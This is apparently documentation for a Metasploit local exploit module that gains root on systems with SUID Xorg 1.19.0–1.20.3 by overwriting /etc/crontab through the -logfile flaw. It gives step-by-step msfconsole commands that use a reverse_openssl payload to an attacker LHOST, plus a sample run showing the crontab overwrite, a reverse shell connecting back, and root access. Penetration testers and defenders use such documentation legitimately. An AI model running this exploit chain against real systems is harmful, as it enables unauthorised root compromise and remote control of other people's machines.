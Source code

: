 ## Description

  This module attempts to gain root privileges using Xorg X11 server versions 1.19.0 < 1.20.3 set as SUID.  A permission check flaw exists for -modulepath and -logfile options when starting Xorg.  This flaw allows users to write over existing files on the system.  This exploit backs up crontab and then uses -logfile to overwrite it.  A command to be run is set for the Font Path argument -fp which will be logged and ran by cron.        


## Vulnerable Application

  Xorg (commonly referred as simply X) is the most popular display server among Linux users. Its ubiquity has led to making it an ever-present requisite for GUI applications, resulting in massive adoption from most distributions.  

  Xorg is more restrictive to exploit under CentOS.  The user must have console lock and SeLinux may interfere.

  This module has been tested successfully on:

  * OpenBSD 6.3
  * OpenBSD 6.4
  * CentOS 7.5.1084 x86_64


## Verification Steps
  On CentOS your session must have console lock.  To get a console lock you can login locally with a user.  

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/multi/local/xorg_x11_suid_server`
  4. Do: Set a payload/target or use default(cmd/unix/reverse_openssl)   
  5. Do: `set SESSION [SESSION]`
  6. Do: `set LHOST [LHOST]`
  7. Do: `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

## Advanced Options

  **Xdisplay**

  Display to use for Xorg (default: `:1`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


   **ConsoleLock**
   
  Will check for console lock under linux  (default: `true`)


## Scenarios

```
msf5 exploit(multi/local/xorg_x11_suid_server) > set session 1
session => 1
msf5 exploit(multi/local/xorg_x11_suid_server) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse double SSL handler on 172.30.0.2:4444
[+] Passed all initial checks for exploit
[*] Uploading your payload, this could take a while
[*] Trying /etc/crontab overwrite
[+] /etc/crontab overwrite successful
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Waiting on cron to run
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo t2XWfcWkZHevLPS8;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "t2XWfcWkZHevLPS8\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (172.30.0.2:4444 -> 172.30.0.99:41253) at 2018-11-12 15:06:39 -0600
[+] Returning session after cleaning
[+] Deleted /tmp/.session-odRjfx

id
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
```
